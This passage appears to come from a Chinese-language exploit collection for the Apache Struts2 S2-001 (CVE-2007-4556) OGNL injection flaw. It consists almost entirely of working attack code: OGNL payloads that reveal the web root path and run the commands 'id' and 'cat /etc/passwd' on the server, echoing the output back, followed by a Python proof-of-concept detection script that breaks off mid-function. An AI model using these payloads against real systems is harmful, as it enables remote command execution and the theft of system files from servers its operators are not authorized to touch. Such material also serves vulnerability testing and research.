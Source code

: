 ```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

#### 执行单一命令

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
#### 执行组合命令

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

### POC

```python
#!/usr/bin/env python3

import re
import requests

class S2_001_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-001漏洞,又名CVE-2007-4556漏洞',
            'description': 'Struts2 S2-001漏洞可执行任意命令, 影响范围为: WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8',
            'date': '2007-07-16',
            'type': 'RCE'
        }
        self.url = url
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded",
        }
        self.check_data = {
            'username': 12,
            'password': '%{78912+1235}'
        }
    
    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        try:
            check_req = requests.post(self.url, headers = self.headers, data = self.check_data)
            check_pattern = re.compile('<.*?name="password" value="(.*?)" ')
```